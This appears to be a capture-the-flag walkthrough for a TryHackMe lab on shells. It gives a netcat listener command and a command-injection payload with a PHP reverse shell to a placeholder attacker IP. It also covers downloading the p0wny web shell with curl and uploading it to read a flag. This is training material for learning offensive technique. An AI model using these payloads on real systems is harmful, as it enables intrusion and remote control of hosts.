 # [Shells Overview](https://tryhackme.com/r/room/shellsoverview)

## Task 8 Practical Task

**Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the / directory?**

* Setup listener `rlwrap nc -lvnp 1443`
* Go to http://MACHINE_IP:8081/ (replace MACHINE_IP accordingly)
* Submit `hello.txt ; php -r '$sock=fsockopen("ATTACKBOX_IP",1443);exec("sh <&3 >&3 2>&3");'` (replace ATTACKBOX_IP accordingly)
* Execute on listener `cat /flag.txt`

**Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the / directory?**

* Download web shell `curl https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php -s -o shell.php`
* Go to http://MACHINE_IP:8082/ (replace MACHINE_IP accordingly)
* Upload `shell.php`
* Go to http://MACHINE_IP:8082/uploads/shell.php
* Execute `cat /flag.txt`
